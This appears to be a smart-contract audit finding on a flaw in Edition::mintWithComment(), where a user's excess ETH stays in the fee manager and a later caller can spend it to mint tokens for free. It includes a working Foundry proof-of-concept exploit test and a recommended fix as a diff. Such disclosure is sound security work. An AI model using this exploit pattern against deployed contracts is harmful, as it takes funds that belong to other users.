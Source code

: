 Wonderful Tin Cuckoo

medium

# `Edition::mintWithComment()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free

## Summary
`Edition::mintWithComment()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free
## Vulnerability Detail
The user calls `Edition::mintWithComment()` and sends ETH. When the `Edition::mintWithComment()` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding ETH in the `Edition` contract will be sent to `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`, at this point, the attacker can consume the ETH in the contract to mint tokens.
```js
    function mintWithComment(
        address to_,
        uint256 tokenId_,
        uint256 amount_,
        address referrer_,
        bytes calldata data_,
        string calldata comment_
    ) external payable {
        Strategy memory strategy = works[tokenId_].strategy;
        // wake-disable-next-line reentrancy
@>        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, referrer_, strategy
        );


        _issue(to_, tokenId_, amount_, data_);
        _refundExcess();


        emit Comment(address(this), tokenId_, to_, comment_);
    }
```

### Poc
Please add to `Edition.t.sol` and execute
```js
    function test_mintWithCommentPoc() public {
        // init user
        address user = makeAddr("user");
        deal(user, 0.1 ether);
        // user mints 1 tokens
        uint256 userMintAmount = 1;
        vm.prank(user);
        edition.mintWithComment{value: 0.1 ether}(
            user, 1, userMintAmount, address(0), new bytes(0), ""
        );
        assertEq(edition.balanceOf(user, 1), userMintAmount);
        assertEq(edition.totalSupply(1), userMintAmount);
        assertEq(address(feeManager).balance, 0.1 ether - 0.0106 ether * userMintAmount);
        assertEq(address(user).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * userMintAmount);
        // init attacker
        address attacker = makeAddr("attacker");
        // attacker doesn't have ETH
        assertEq(attacker.balance, 0);
        uint256 attackerMintAmount = address(feeManager).balance / 0.0106 ether;
        // attacker calls mint()
        vm.prank(attacker);
        edition.mintWithComment{value: 0}(
            attacker, 1, attackerMintAmount, address(0), new bytes(0), ""
        );
        assertEq(edition.balanceOf(attacker, 1), attackerMintAmount);
        assertEq(edition.balanceOf(user, 1), userMintAmount);
        assertEq(edition.balanceOf(attacker, 1), attackerMintAmount);
        assertEq(edition.totalSupply(1), userMintAmount + attackerMintAmount);
        assertEq(address(user).balance, 0);
        assertEq(address(attacker).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * (userMintAmount + attackerMintAmount));
        console.log("Attacker free mint amount:", attackerMintAmount);
    }
    // [PASS] test_mintWithCommentPoc() (gas: 261884)
    // Logs:
    //     Attacker free mint amount: 8
```
## Impact
`Edition::mintWithComment()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free
## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/editions/Edition.sol#L252-L270
## Tool used

Manual Review

## Recommendation
Verify msg.value and send the corresponding amount

```diff
    function mintWithComment(
        address to_,
        uint256 tokenId_,
        uint256 amount_,
        address referrer_,
        bytes calldata data_,
        string calldata comment_
    ) external payable {
        Strategy memory strategy = works[tokenId_].strategy;
        // wake-disable-next-line reentrancy
+       uint256 sendValue = FEE_MANAGER.getMintFee(works[tokenId_].strategy, amount_).amount;
+       if (msg.value < sendValue) revert();
+       FEE_MANAGER.collectMintFee{value: sendValue}(
-        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, referrer_, strategy
        );


        _issue(to_, tokenId_, amount_, data_);
        _refundExcess();


        emit Comment(address(this), tokenId_, to_, comment_);
    }
```
